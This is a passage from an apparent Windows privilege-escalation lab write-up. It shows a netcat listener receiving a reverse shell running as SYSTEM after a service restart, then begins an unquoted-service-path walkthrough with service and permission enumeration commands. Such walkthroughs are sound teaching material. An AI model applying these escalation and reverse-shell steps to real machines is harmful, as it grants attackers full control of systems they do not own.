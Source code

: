 ```bash
C:\gr4n173> net start daclsvc
The service is not responding to the control function.

More help is available by typing NET HELPMSG 2186.
```
**Linux**
```bash
root@gr4n173~$ nc -lvnp 53
listening on [any] 53 ...
connect to [10.2.77.175] from (UNKNOWN) [10.10.75.7] 49882
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>
```

### Unquoted Service Path
#unquotedsvc
Basically if path to the service binary isn't wrapped in quotes and there are spaces in the path then we can escalate privileges by abusing misconfigured services.

For ex:- If we use long file name that contains a space, use quoted strings indicate where file ends ;otherwise, the filename isn't ambiguous. string "C:\program files\testing service\unquoted Service ".

 `Unquotedsvc`  can be checked as
 ```bash
 C:\gr4n173>sc qc unquotedsvc
 SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
From there we can see the bin_path is unquoted and contain the spaces. Now in order to exploit that first we have to check who can `rw` that directory.
```bash
C:\grn4713>C:\gr4n173\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\Common Files\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

